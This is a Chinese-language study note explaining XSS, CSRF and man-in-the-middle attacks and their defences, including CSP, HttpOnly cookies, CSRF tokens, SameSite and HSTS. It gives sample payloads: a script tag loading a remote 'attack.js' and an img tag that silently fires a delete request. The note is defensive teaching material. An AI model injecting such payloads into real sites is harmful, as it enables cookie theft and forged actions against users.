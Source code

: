 ## XSS

**XSS (跨站脚本攻击)**是指攻击者利用网站漏洞将代码注入到其他用户浏览器的攻击方。例如窃取 Cookie 信息；监听用户行为；修改 DOM 伪造登录，浮窗广告等。

### 反射型

用户将一段含有恶意代码的请求提交给服务器，服务器接收后又将恶意代码反射给浏览器

例如 `xxx.com?name=<script src="http://a.com/attack.js" />` 的请求在服务端未经处理直接把 name 字段拼接至前端模板并返回给用户

- 利用 URL 进行伪装
- 服务器不会存储恶意代码
- 在用户不知情的情况下执行了攻击者注入的脚本

### 存储型

利用站点漏洞将恶意代码提交到网站数据库，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行

例如攻击者在留言板提交了 `<script src="http://a.com/attack.js" />` 而服务端未经转义存储了恶意代码，并将其渲染到页面中，再次访问该留言板市，会自动执行攻击者注入脚本

- 恶意代码存储在目标网站服务器上
- 只要用户访问被注入恶意脚本的页面，就会被攻击

### DOM 型

不涉及服务器，WEB 资源传输或用户使用过程中被修改页面的数据

例如 WiFi 路由拦截等

- 在客户端发生

### 防范 XSS

1. 对于外部传入的内容进行过滤或转码
   - script, alert, <, > 等
2. 开启 CSP (Content Security Policy, 内容安全策略)
   - 限制加载其他域下的资源文件
   - 禁止向第三方域提交数据
   - 禁止执行内联脚本和未授权的脚本
   - 提供上报机制，帮助尽快发现 XSS 攻击，修复问题
3. 设置 Cookie HttpOnly 属性，禁止 JavaScript 读取 document.cookie
4. 添加验证码，限制输入长度等

## CSRF

**CSRF (跨站请求伪造)**诱导用户进入第三方网站，在第三方网站中向被攻击网站发送跨站请求，利用用户的登录状态冒充用户对被攻击的网站执行某项操作

例如：

1. 利用 img src 伪装请求 `<img src="http://xxx.com/article/delete" />`，自动发起 get 请求
2. 利用 form.submit()，自动发起 post 请求
3. 利用超链接 a，引诱用户点击链接

- 目标站点有 CSRF 漏洞
- 用户登录过目标站点，并在浏览器保持该站点的登录状态
- 用户打开了第三方站点

### 防范 CSRF

1. CSRF Token 验证身份
   - 服务端生成 CSRF Token (例如 session)，用户提交请求时徐携带 Token，服务端验证 Token 是否有效
2. Cookie 的 SameSite 属性，限制第三方 Cookie
   - SameSite 属性仅 HTTPS 设置有效
   - Strict: 完全禁止第三方 Cookie
   - Lax: 只允许链接、预加载请求和 get 表单发送第三方 Cookie
   - None: 关闭 SameSite 属性
3. 双重 Cookie 验证
   - 利用攻击者无法获取 Cookie 在请求头或 URL 参数中携带 Cookie 数据，服务端再验证 Cookie 是否一致
4. 白名单模式，仅允许安全域名请求
5. 验证码校验

## MITM

**MITM (中间人攻击)**是一种通过各种技术手段入侵两台设备通信的网络攻击方式

### 拦截

攻击者再用户数据到达目标设备前拦截并通过攻击者的网络

- 被动攻击：恶意的 WiFi 热点，一旦有受害者连接了该热点，攻击者就能完全了解其所有的在线数据交换
- 主动攻击：
  1. ARP 欺骗：通过冒充网关或其他主机，使得到达网关或其他主机通过攻击者主机进行转发
  2. DNS 欺骗：通过冒充域名服务器，将受害者查询的 IP 地址转发到攻击者的 IP 地址

### 解密

若链接使用 HTTPS 协议对传输的数据用了 SSL/TLS 加密，这时需要解密用户数据

1. SSL 劫持（伪造证书）
   - 攻击者拦截到服务器返回的公钥后，将其替换成自己的公钥返回给客户端（攻击者可以用自己的私钥去解密用户数据，用服务的公钥解密服务器数据）
   - 因为是伪造的证书，客户端再校验证书过程中会提示证书错误
   - 若用户任选择继续操作，此时中间人便能获取与服务端的通信数据
2. SSL 剥离
   - 攻击者拦截后继续和服务器保持 HTTPS 链接，并与用户降级为不安全的 HTTP 连接
   - 服务端可以通过开启 HSTS (HTTP Strict Transport Security) 策略告知浏览器必须使用 HTTPS 链接，但是用户的首次访问仍不受保护

### 防范 MITM

- 开发者
  - 支持 HTTPS
  - 开启 HSTS 策略
- 对于用户
  - 尽可能使用 HTTPS 链接
  - 避免连接不知名的 WiFi 热点
  - 不忽略不安全的浏览器通知
  - 公共网络不进行涉及敏感信息的交互
  - 用可信的第三方 CA 厂商，不下载来源不明的证书
